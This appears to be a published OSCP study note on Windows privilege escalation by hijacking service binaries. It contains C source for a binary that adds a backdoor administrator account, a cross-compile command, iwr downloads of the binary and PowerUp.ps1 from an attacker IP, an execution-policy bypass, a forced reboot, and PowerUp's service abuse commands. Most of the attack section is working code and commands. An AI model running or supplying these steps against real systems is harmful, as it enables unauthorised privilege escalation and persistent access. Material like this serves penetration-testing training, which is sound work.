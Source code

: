 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/i. Windows Privilege Escalation/5. Service Hijacking/"}
---
```


- A Windows Service is a long-running background executable or application managed by the Service Control Manager.
- They are similar to daemons on Unix
- Windows Services can be managed by the Services snap-in, PowerShell, or sc.exe.
- Services are run by LocalSystem (NT AUTHORITY, SYSTEM, BUILTIN), Network Service, and Local Service user accounts.
- Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.

--------
### Writable Files + Directories

Writable files from root directory:
```
cmd /c 'dir C:\ /a-r-d /s /b'
```

Writable directories from root directory:
```
cmd /c 'dir C:\ /ad-r /s /b'
```

-------------
### Manual Service Binary Hijacking
- Each Windows service has an associated binary file.
- They are executed when the service is started or transitioned into a running state.
- An unprivileged user can tamper with misconfigured services being run by higher authority to privesc.
- Look for services with binaries outside of the System32 folder, since they are probably installed and configured by the user manually.

1. Enumerate running processes to identify any to abuse:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Alt. Get-Service ... Get-WmiObject ... services.msc
```
2. Enumerate permissions for the identified services:
```powershell
icacls "C:\xampp\apache\bin\httpd.exe"

Alt. Get-ACL

Permissions:
F: Full access
M: Modify access
RX: Read and execute access
R: Read-only access
W: Write-only access
```
3. Create malicious binary. Example in C which will create a new user:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user zombie password123! /add");
  i = system ("net localgroup administrators zombie /add");
  
  return 0;
}
```
4. Cross-compile it to an 64-bit .exe for Windows:
```bash
x86_64-w64-mingw32-gcc <file>.c -o <file>.exe
```
5. Serve the binary, download it, and move it to the correct directory:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move <pre-path> <post-path>
```
6. Try to restart the service manually (if permissioned):
```powershell
net stop <servicename>
net start <servicename>

#Or run:
Restart-Service <servicename>

#Service name is not the binary file
```
7. If not possible check if it starts again on reboot:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<servicename>'}
```
8. Check if is privileged to restart system (the state should not matter):
```powershell
whoami /priv
```
9. Issue a system reboot using:
```powershell
shutdown /r /t 0
```
10. Remember to repair the binary after escalation!

------------
### Automatic Service Hijacking with PowerUp:
1. Serve the PowerUp.ps1 on your kali machine.
2. Download the script:
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
4. Run the script with bypass:
```powershell
 powershell -ep bypass
 . .\PowerUp.ps1
```
5. Now check modifiable services identified:
```powershell
Get-ModifiableServiceFile
```
6. Try to use the built-in AbuseFunction to install a service binary (where name is Service Name listed from above command):
```powershell
Install-ServiceBinary -Name 'mysql'
```
7. Win!

